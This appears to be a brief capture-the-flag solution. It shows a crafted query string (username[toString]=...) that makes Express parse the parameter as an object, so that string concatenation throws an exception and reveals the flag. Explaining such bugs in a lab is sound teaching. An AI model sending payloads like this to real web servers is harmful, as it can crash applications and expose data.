 The solution is to make an HTTP request like this:

```
http://<host>/?username[toString]=some-text
```

The express library will make `req.query.username` look something like:

```
{
  "toString": "some-text"
}
```

Then, when this code runs:

```
        const output = 'Hello ' + username
```

it will try to call username.toString() to get a string form of the object.

However, since we have overwritten the builtin toString() function with
a string value, that attempt will throw an exception.

The exception then yields the flag.
